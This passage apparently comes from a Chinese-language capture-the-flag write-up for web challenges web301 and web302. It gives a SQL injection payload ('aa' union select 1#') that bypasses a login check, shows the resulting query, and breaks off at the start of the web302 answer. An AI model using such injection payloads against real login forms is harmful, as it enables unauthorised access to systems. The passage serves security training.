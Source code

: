 ```php

?>
```

### 答案

```
POST：
userid=aa' union select 1#&userpwd=1
```

构造 sql ，使查询到的密码为 union select 后的值，与我们输入的 userpwd 的值相等

```sql
select sds_password from sds_user where sds_username='aa' union select 1#' order by id limit 1
```

于是登录后台

<img src=".\图片\Snipaste_2023-06-01_11-26-48.png" alt="Snipaste_2023-06-01_11-26-48" style="zoom:80%;" />

## web302

与上题中修改的地方

```php
if(!strcasecmp(sds_decode($userpwd),$row['sds_password'])){
```

### 答案
